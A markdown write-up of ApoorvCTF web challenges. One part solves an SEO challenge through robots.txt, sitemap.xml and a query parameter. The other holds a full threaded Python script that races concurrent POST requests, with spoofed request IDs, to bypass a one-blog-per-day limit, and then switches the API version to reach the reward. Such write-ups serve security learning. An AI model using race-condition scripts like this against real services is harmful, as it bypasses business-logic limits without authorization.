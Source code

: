# Apoorvctf

1. By `HM`
- https://hackmd.io/@hmmm1337/ryLYSEXskx
    - ArchBTW
    - Blend in Disguise

2. By `Bytecodesky`

# SEO CEO - WEB
They're optimizing SEO to show this garbage?!

> Author: proximuz

[Web chall](https://seo-opal.vercel.app)

At first glance we can not do anything on the page, we do not have any functionality or vulnerability.
Automatically you think of doing reconnaissance, but you can't use automated tools, so you have to do a manual reconnaissance.
we start with the most common of all `/robots.txt`.

and we obtain the following

```
blud really thought itd be that easy
apoorvctf{c0me_0n_mAn_it5_t0o_e4sy}

```
we continue scanning the page, and go to `/sitemap.xml`.

```
<url>
<loc>https://www.thiswebsite.com/goofyahhroute</loc>
<lastmod>2025-02-26</lastmod>
<changefreq>never</changefreq>
<priority>0.0</priority>
</url>
```
and within the whole sitemap we found something interesting, apparently an example page that leads to a certain address, but obviously that domain is not valid, so the directory is a signal.

We enter `/goofyahhroute` and we get this
```
ok bro u da seo master gng frfr ngl no cap
but do you really want the "flag"?
come on blud, it's a yes or no question
yeah?
```

then we can deduce that we must pass the parameter **flag** and as value **yes**.
`/goofyahhroute?flag=yes`
and obtain the flag: `apoorvctf{s30_1snT_0pt1onaL}`

2. By `x.two`

# Blog-1 - Web

### Description

In the digital realm, Blog-1 awaited brave developers. The mission? Craft a captivating blog with enchanting posts, lively comments, and secure user authentication. Create a functional and visually stunning masterpiece. Ready for the Blog-1 adventure?


### Solution

We have basic web page where we can register user and login with it. Exploring menu items, we have option of `Daily Rewards`

![Claim](./images/claim.png)


We can see that we have to write 5 blogs to claim the reward (which is probably our flag). But when we try to write 2 blogs, it tells us that we can only write one blog per day. This suggests that there might be a race condition vulnerability, where we can send multiple concurrent requests.

I used this script to write multiple blogs at once:


```python
import requests
import threading
import time
import uuid

SUCCESS_COUNT = 0
SUCCESS_LOCK = threading.Lock()
BARRIER = threading.Barrier(5)  # Strict synchronization for 5 warriors

def domain_expansion(session):
    global SUCCESS_COUNT
    try:
        # Wait for all threads to reach this point
        BARRIER.wait()
        
        url = "http://chals1.apoorvctf.xyz:5001/api/v1/blog/addBlog"
        headers = {
            "authorization": "Bearer [token]",
            "Content-Type": "application/json",
            "X-Request-ID": str(uuid.uuid4())  # Bypass duplicate request detection
        }
        
        payload = {
            "title": f"Limitless Void {uuid.uuid4().hex[:6]}",  # Unique title each request
            "description": "Cursed Technique: Maximum Output",
            "content": "Domain Expansion: Infinite Void"
        }

        # Surgical strike with precise timing
        response = session.post(
            url,
            headers=headers,
            json=payload,
            timeout=15  # Extended timeout for server processing
        )

        if response.status_code == 201:
            with SUCCESS_LOCK:
                SUCCESS_COUNT += 1
                print(f"Domain expanded! Success #{SUCCESS_COUNT}")
        else:
            print(f"Blocked: {response.status_code} | {response.text}")

    except Exception as e:
        print(f"Curse energy leak: {str(e)}")

if __name__ == "__main__":
    # Create 5 dedicated cursed techniques
    sessions = [requests.Session() for _ in range(5)]
    
    threads = []
    for i in range(5):
        t = threading.Thread(target=domain_expansion, args=(sessions[i],))
        threads.append(t)
        t.start()
        time.sleep(0.001)  # Nanosecond-level stagger
    
    # Wait for all techniques to complete
    for t in threads:
        t.join()
    
    print(f"\nTotal successful domain expansions: {SUCCESS_COUNT}")
    print("If <5, repeat until the barrier breaks!")
```


And we successfully wrote 5 blogs. Visiting `Daily Reward` option sends request to `/api/v2/gift` endpoint which contains this:

![claim2](./images/claim2.png)


This links to a troll youtube video:

https://youtu.be/WePNs-G7puA?si=DOUFW9vAgUKdClxX


But changing the endpoint back to `/api/v1/gift` gives us our flag:

apoorvctf{s1gm@_s1gm@_b0y}
